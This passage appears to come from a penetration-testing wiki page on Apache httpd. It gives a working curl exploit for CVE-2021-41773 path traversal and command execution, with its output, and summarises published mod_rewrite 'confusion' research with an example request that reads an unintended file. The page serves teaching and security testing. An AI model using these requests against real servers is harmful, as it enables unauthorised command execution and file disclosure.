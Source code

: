 Also, some places where you can find this configuration is:

```bash
/etc/apache2/mods-available/php5.conf
/etc/apache2/mods-enabled/php5.conf
/etc/apache2/mods-available/php7.3.conf
/etc/apache2/mods-enabled/php7.3.conf
```

## CVE-2021-41773

```bash
curl http://172.18.0.15/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh --data 'echo Content-Type: text/plain; echo; id; uname'
uid=1(daemon) gid=1(daemon) groups=1(daemon)
Linux
```

## Confusion Attack <a href="#a-whole-new-attack-confusion-attack" id="a-whole-new-attack-confusion-attack"></a>

These types of attacks has been introduced and documented [**by Orange in this blog post**](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1) and the following is a summary. The "confusion" attack basically abuses how the tens of modules that work together creating a Apache don't work perfectly synchronised and making some of them modify some unexpected data can cause a vulnerability in a later module.

### Filename Confusion

#### Truncation

The **`mod_rewrite`** will trim the content of `r->filename` after the character `?` ([_**modules/mappers/mod_rewrite.c#L4141**_](https://github.com/apache/httpd/blob/2.4.58/modules/mappers/mod_rewrite.c#L4141)). This isn't totally wrong as most modules will treat `r->filename` as an URL. Bur in other occasions this will be treated as file path, which would cause a problem.

- **Path Truncation**

It's possible to abuse `mod_rewrite` like in the following rule example to access other files inside the file system, removing the last part of the expected path adding simply a `?`:

```bash
RewriteEngine On
RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml"

# Expected
curl http://server/user/orange
# the output of file `/var/user/orange/profile.yml`

# Attack
curl http://server/user/orange%2Fsecret.yml%3F
# the output of file `/var/user/orange/secret.yml`
```

